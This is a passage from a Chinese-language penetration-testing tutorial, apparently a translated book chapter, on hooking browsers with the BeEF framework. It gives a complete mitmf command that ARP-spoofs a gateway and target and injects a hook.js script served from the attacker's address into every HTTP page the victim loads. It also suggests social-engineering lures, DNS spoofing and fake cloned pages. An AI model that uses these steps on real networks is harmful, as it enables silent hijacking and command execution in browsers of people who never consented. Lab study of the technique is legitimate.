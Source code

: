 完成所有操作后，我们可以点击注销链接，退出工具。

这只是 BeEF 的基本概览，包括主要命令和界面，以及一种基本的钩取目标方法。再次说明，我们可以通过社会工程学手段让别人访问钩子页面，比如使用 URL 缩短服务让链接更短、更美观，或者通过 DNS 欺骗让目标访问我们自己的网页，从而使 BeEF 框架生效。

# BeEF – 使用 MITMf 进行钩取

另一种将目标钩取到 BeEF 的方法是使用 MITMf 注入 BeEF 提供的 JavaScript。因此，如果目标和攻击者在同一网络中，并且我们能够成为中间人（无论是通过伪造接入点，还是通过物理连接到目标计算机，无论我们通过什么方式成为中间人），我们就可以将钩子代码注入目标浏览器中，让目标在浏览的页面（HTTP 页面）中直接被钩取到 BeEF，无需点击任何东西，也不需要我们发送任何内容。我们将使用之前页面中的相同链接，即`http://10.0.2.15:3000/hook.js`，或者脚本。我们将复制它，然后粘贴到`--inject`插件中，使用 MITMf。命令如下：

```
mitmf --arp --spoof --gateway 10.0.2.1 --target 10.0.2.5 -i eth0 --inject --js-url http://10.0.2.15:3000/hook.js
```

我们一直使用的命令是`mitmf`。我们正在进行 ARP 欺骗，设置网关为`10.0.2.1`，目标为`10.0.2.5`，接口为`eth0`，并且使用`--inject`插件和`--js-url`选项，指定一个 JavaScript 的 URL，即钩子存储的位置，在我们的例子中，它位于`http://10.0.2.15:3000/hook.js`。启动命令后，正常浏览网页，或者直接访问 BBC 网站。现在，如果我们返回到 BeEF 界面，可以看到我们已经有了一个目标，而这个目标是一台 Windows 设备：

![](img/8ed3c4dc-15bb-4436-b54c-182d8dc69a69.png)

代码已自动注入到 BBC 网站中，因此用户无需访问任何内容或点击 URL。代码将被注入到他们访问的任何网页中，他们将被连接。用户只要访问任何网站，就会被连接。如果我们查看页面源代码，并查看底部，我们将看到我们在页面源代码底部有挂钩脚本，这就是为什么它被执行：

![](img/3cdcb119-612a-4675-bad2-6db7328829fe.png)

这就是为什么我们实际上可以将脚本放在任何页面下的原因。如果我们制作假页面，我们只需复制任何页面的源代码并将脚本放在底部。然后，它将在目标页面上执行，我们将能够将我们的目标连接到浏览器。

# BeEF – 基本命令

现在我们的浏览器或目标已经连接，我们可以转到命令选项卡并开始在目标上执行命令：

![](img/0b83d035-9ec0-433f-8910-377a5b00ded4.png)
